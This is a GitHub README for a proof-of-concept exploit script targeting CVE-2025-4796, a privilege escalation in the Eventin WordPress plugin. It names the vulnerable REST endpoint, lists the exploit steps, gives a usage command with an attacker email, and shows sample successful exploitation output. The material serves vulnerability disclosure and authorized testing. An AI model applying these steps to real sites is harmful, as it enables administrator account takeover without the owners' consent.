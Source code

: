 # CVE-2025-4796
Eventin &lt;= 4.0.34 - Authenticated (Contributor+) Privilege Escalation via User Email Change/Account Takeover

# 🛡️ Eventin <= 4.0.34 - Authenticated (Contributor+) Privilege Escalation (CVE-2025-4796)

## 📌 Overview
This repository documents a privilege escalation vulnerability in the Eventin WordPress plugin (<= 4.0.34) that allows an authenticated user with Contributor+ capabilities to change arbitrary users' email addresses via the plugin's speaker update API. By changing an administrator's email, an attacker can trigger a password reset and gain account takeover.

- Vulnerable component: Eventin WordPress plugin (Eventin\Speaker\Api\SpeakerController::update_item)
- Affected versions: <= 4.0.34
- CVE: CVE-2025-4796
- CVSS: 8.8 (High)




- Active installations: 10,000+

## ⚠️ Vulnerability Details
Eventin does not properly validate the identity or capability of the caller before updating speaker/user details (specifically email). An attacker who is authenticated as a contributor (or higher) can change the email address of other users — including administrators — using the plugin REST endpoint:
- PUT /wp-json/eventin/v2/speakers/<speaker_id>

Once the email is changed to an attacker-controlled address, the standard WordPress password reset flow can be used to take over the account.

## 🧰 Script (PoC)
Filename: `CVE-2025-4796.py`

This script automates the steps:
1. Log in to the target WordPress site using supplied credentials.
2. Extract the required X-WP-Nonce 
3. Send a PUT request to `/wp-json/eventin/v2/speakers/<speaker_id>` to update the speaker's email.
4. Print and format the JSON response and a professional success message.

Requirements:
- Python 3.8+
- requests

Installation:
```sh
pip install requests
```

## 🚀 Usage
Run the script from the command line:

```sh
python CVE-2025-4796.py -u https://target.site -id 9 -email attacker@example.com -user contributor_user -pass contributor_password
```

Show script help:

```sh
python CVE-2025-4796.py -h
```

## 📝 CLI Options (help)
```sh
usage: CVE-2025-4796.py [-h] -u URL -id SPEAKER_ID -email EMAIL -user USERNAME -pass PASSWORD

Exploit For: CVE-2025-4796 By: Nxploited

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target WordPress site URL
  -id, --speaker_id SPEAKER_ID
                        Enter the speaker ID for the user
  -email, --email EMAIL
                        Enter a new email address
  -user, --username USERNAME
                        Enter the username for the account to upgrade
  -pass, --password PASSWORD
                        Enter the password for the account to upgrade


```
## ✅ Example Successful Output
```
[*] Please wait, exploitation starting ...
[*] Disabling SSL warnings ...
[*] Logging in to WordPress ...
[+] Logged in successfully.
[*] Extracting nonce value ...
[+] Nonce extracted: fc0ab7b983
[*] Exploiting and updating speaker info ...

[+] Exploitation in progress, please wait ...

[+] Exploitation successful.
[+] The account has been updated to Admin.
    Speaker ID   : 9
    Email        : Nxploited@gmail.com

[!] Please reset your password using the email: Nxploited@gmail.com
```

## ⚖️ Responsible Disclosure & Disclaimer
- This repository is provided for security research, testing, and defensive purposes.
- Do not use these techniques against systems you do not own or do not have explicit authorization to test.
- Unauthorized exploitation of vulnerabilities is illegal and unethical.
- If you are a site owner and believe you are vulnerable, update Eventin to the latest version or apply vendor patches immediately.
- Use this code only in authorized environments (lab, client-approved pen test, or with explicit permission).

## 🧾 What the script does (concise)
- Validates inputs (URL, email) and normalizes URL schema.
- Disables SSL warnings (optional; used to support testing against self-signed dev instances).
- Logs in using provided WP credentials and validates login via cookies.
- Fetches X-WP-Nonce from the admin page.
- Sends an authenticated PUT request to update the speaker's email.
- Prints the formatted JSON response and a final human-readable success summary.

## 👤 Credits
By: Khaled Alenaz (Nxploited)  
GitHub: https://github.com/Nxploited/
